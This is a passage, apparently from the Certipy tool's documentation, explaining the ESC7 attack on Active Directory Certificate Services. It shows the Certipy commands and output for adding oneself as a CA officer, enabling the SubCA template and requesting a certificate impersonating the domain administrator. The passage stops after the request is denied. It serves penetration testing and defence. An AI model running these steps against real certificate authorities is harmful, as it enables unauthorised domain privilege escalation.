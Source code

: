 #### ESC7

ESC7 is when a user has the `Manage CA` or `Manage Certificates` access right on a CA. There are no public techniques that can abuse the `Manage Certificates` access right for domain privilege escalation, but it can be used it to issue or deny pending certificate requests.

The ["Certified Pre-Owned"](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) whitepaper mentions that this access right can be used to enable the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag to perform the ESC6 attack, but this will not have any effect until the CA service (`CertSvc`) is restarted. When a user has the `Manage CA` access right, the user is also allowed to restart the service. However, it does not mean that the user can restart the service remotely.

Instead, I've found another technique that doesn't require any service restarts or configuration changes.

**Prerequisites**

In order for this technique to work, the user must also have the `Manage Certificates` access right, and the certificate template `SubCA` must be enabled. With the `Manage CA` access right, we can fulfill these prerequisites.

The technique relies on the fact that users with the `Manage CA` *and* `Manage Certificates` access right can issue failed certificate requests. The `SubCA` certificate template is vulnerable to ESC1, but only administrators can enroll in the template. A user can request to enroll in the `SubCA` - which will be denied - but then issued by the manager afterwards.

If you only have the `Manage CA` access right, you can grant yourself the `Manage Certificates` access right by adding your user as a new officer.

```bash
$ certipy ca 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -add-officer 'john'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'john' on 'corp-CA'
```

The `SubCA` template can be enabled on the CA with the `-enable-template` parameter.

```bash
$ certipy ca 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -enable-template 'SubCA'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'corp-CA'
```

By default, the `SubCA` template is enabled.

**Attack**

If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the `SubCA` template.

This request will be denied, but we will save the private key and note down the request ID.

```bash
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'SubCA' -alt 'administrator@corp.local'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 674
Would you like to save the private key? (y/N) y
[*] Saved private key to 674.key
```
